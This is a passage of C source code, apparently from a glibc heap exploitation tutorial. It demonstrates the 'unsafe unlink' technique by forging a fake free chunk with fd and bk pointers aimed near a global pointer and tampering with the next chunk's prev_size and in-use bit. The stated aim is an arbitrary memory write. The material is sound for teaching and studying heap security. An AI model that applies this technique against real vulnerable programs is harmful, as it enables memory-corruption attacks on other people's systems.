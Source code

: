 ```
	fprintf(stderr, "Tested in Ubuntu 14.04/16.04 64bit.\n");
	fprintf(stderr, "This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	fprintf(stderr, "The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;

	fprintf(stderr, "The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	fprintf(stderr, "The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

	fprintf(stderr, "We create a fake chunk inside chunk0.\n");
	fprintf(stderr, "We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	fprintf(stderr, "We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	fprintf(stderr, "With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	fprintf(stderr, "Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	fprintf(stderr, "Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	fprintf(stderr, "We need to make sure the 'size' of our fake chunk matches the 'previous_size' of the next chunk (chunk+size)\n");
	fprintf(stderr, "With this setup we can pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False\n");
	fprintf(stderr, "P = chunk0_ptr, next_chunk(P) == (mchunkptr) (((char *) (p)) + chunksize (p)) == chunk0_ptr + (chunk0_ptr[1]&(~ 0x7))\n");
	fprintf(stderr, "If x = chunk0_ptr[1] & (~ 0x7), that is x = *(chunk0_ptr + x).\n");
	fprintf(stderr, "We just need to set the *(chunk0_ptr + x) = x, so we can pass the check\n");
	fprintf(stderr, "1.Now the x = chunk0_ptr[1]&(~0x7) = 0, we should set the *(chunk0_ptr + 0) = 0, in other words we should do nothing\n");
	fprintf(stderr, "2.Further more we set chunk0_ptr = 0x8 in 64-bits environment, then *(chunk0_ptr + 0x8) == chunk0_ptr[1], it's fine to pass\n");
	fprintf(stderr, "3.Finally we can also set chunk0_ptr[1] = x in 64-bits env, and set *(chunk0_ptr+x)=x,for example chunk_ptr0[1] = 0x20, chunk_ptr0[4] = 0x20\n");
	chunk0_ptr[1] = sizeof(size_t);
	fprintf(stderr, "In this case we set the 'size' of our fake chunk so that chunk0_ptr + size (%p) == chunk0_ptr->size (%p)\n", ((char *)chunk0_ptr + chunk0_ptr[1]), &chunk0_ptr[1]);
	fprintf(stderr, "You can find the commitdiff of this check at https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30\n\n");

	fprintf(stderr, "We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	fprintf(stderr, "We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	fprintf(stderr, "It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	fprintf(stderr, "If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	fprintf(stderr, "We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

```